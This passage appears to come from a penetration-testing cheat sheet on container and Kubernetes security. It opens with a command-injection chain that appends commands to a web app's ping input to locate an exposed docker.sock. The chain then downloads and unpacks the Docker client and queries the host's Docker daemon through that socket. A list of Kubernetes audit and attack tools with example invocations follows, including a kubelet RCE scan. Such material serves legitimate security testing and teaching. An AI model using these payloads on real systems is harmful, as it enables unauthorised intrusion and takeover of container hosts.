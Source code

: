 ```bash
# Webapp makes ping
# add some listing to find docker.sock
ping whatever;ls -l /custom/docker/
# Once found, download docker client
ping whatever;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
ping whatever;tar -xvzf /root/docker-18.09.1.tgz -C /root/
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock ps
ping whatever;/root/docker/docker -H unix:///custom/docker/docker.sock images
```

### Tools

```bash
# kube-bench - secutity checker
kubectl apply -f kube-bench-node.yaml
kubectl get pods --selector job-name=kube-bench-node
kubectl logs kube-bench-podname

# https://github.com/aquasecurity/kube-hunter
kube-hunter --remote some.node.com

# kubeaudit
./kubeaudit all

# kubeletctl
# https://github.com/cyberark/kubeletctl
kubeletctl scan rce XXXXXXXX

# https://github.com/cdk-team/CDK
cdk evaluate

# Api audit
# https://github.com/averonesis/kubolt

# PurplePanda https://github.com/carlospolop/PurplePanda
```
